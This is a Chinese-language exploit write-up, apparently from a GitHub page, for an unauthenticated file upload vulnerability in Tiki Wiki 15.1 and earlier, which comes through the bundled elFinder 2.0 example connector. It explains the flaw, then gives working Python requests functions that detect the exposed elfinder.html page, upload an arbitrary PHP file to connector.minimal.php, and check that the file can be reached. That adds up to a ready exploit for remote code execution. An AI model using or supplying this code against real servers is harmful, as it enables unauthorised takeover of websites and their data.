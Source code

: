 
# Tiki Wiki <=15.1 - Unauthenticated File Upload 

## 漏洞原理
**利用Tiki利用Tiki Wiki<=15.1中的文件上传漏洞，
漏洞来自tiki的第三方组件ELFinder -version 2.0
该组件带有一个默认的示例页面：包括上传、删除、重命名、创建目录等
并且该页面不强制进行文件扩展名、内容类型等验证。
因此，未经身份验证的用户也可以上传PHP文件。**

## exp编写
### 1. 检测漏洞是否存在
使用requests模块，http://docs.python-requests.org/zh_CN/latest/user/quickstart.html  
```python
def check(url, port):
    parts = ['http://', url, ':', port, '/tiki/vendor_extra/elfinder/elfinder.html']
    target_url = ''.join('%s' % part for part in parts)
    print(target_url)
    r = requests.get(target_url)
    if (r.status_code == 200):
        print("检测成功,开始攻击")
        return True
    else:
        print("未检测到")
        return False
```
### 2. 漏洞利用  
- 选择一个php文件上传然后抓包可得：
![mark](http://onc55v8te.bkt.clouddn.com/blog/20170423/104629854.png)
- 据此，使用requests库提交Multipart/form-data格式的数据，查看post部分
![mark](http://onc55v8te.bkt.clouddn.com/blog/20170423/104720598.png)
- 据此构造参数
```python
files = {'cmd': (None, 'upload'),
             'target': (None, 'l1_XA'),
             'upload[]': (filename, open(filename, 'rb'), 'application/octet-stream')
             }
```
- 随后使用post方法提交
```python
def exploit(url, port, filename):
    parts = ['http://', url, ':', port, '/tiki/vendor_extra/elfinder/php/connector.minimal.php']
    target_url = ''.join('%s' % part for part in parts)
    files = {'cmd': (None, 'upload'),
             'target': (None, 'l1_XA'),
             'upload[]': (filename, open(filename, 'rb'), 'application/octet-stream')
             }
    r = requests.post(target_url, files=files)
```
### 3.检测是否上传成功
如果上传成功，会在/tiki/vendor_extra/elfinder/files/路径下找到上传的文件
```python
def check_success(url, port, filename):
    parts = ['http://', url, ':', port, '/tiki/vendor_extra/elfinder/files/', filename]

    target_url = ''.join('%s' % part for part in parts)
    r = requests.get(target_url)
    if (r.status_code == 200):
        print("上传成功~")
    else:
        print("上传失败")
```
